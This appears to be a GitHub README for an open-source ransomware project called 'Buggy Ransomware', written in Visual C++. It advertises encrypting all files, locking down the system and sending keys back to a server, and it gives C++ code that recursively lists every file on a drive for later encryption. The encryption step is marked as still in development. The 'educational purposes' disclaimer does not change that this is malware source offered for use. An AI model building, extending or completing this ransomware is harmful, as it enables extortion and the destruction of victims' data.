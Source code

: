 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("d:\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			data_file << dir->path() << "\n";
		}
	}
	system("pause");
	return 0;
}
```

## Step 2 (Encrypt files)


# Currently in Development....Happy Hacking:)
